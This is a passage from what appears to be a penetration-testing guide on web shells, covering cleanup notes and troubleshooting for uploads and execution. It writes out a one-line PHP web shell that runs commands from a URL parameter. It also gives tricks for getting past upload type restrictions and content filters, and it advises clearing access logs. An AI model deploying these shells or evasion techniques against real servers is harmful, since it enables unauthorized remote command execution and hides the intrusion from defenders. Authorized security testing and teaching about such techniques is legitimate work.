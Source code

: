 ### Security Considerations

1. **Authorization Scope**
   - Only deploy on authorized targets
   - Follow engagement rules
   - Document shell locations
   - Remove after testing completion

2. **Operational Security**
   - Use encrypted connections
   - Avoid suspicious commands
   - Monitor detection systems
   - Maintain access logs

3. **Cleanup Procedures**
   - Remove shells after use
   - Clear access logs if possible
   - Document artifacts created
   - Verify complete removal

## Troubleshooting Common Issues

### Upload Problems

**File Type Restrictions:**
```bash
# Try different extensions
shell.php -> shell.php.txt -> shell.txt
shell.aspx -> shell.txt -> shell.asp
```

**Size Limitations:**
```bash
# Create minimal shells
<?php system($_GET['c']); ?>
```

**Content Filtering:**
```bash
# Obfuscate suspicious strings
str_replace('system', 'sys'.'tem', $func);
```

### Execution Issues

**Permission Problems:**
```bash
# Check file permissions
ls -la shell.php

# Set executable permissions
chmod +x shell.php
```
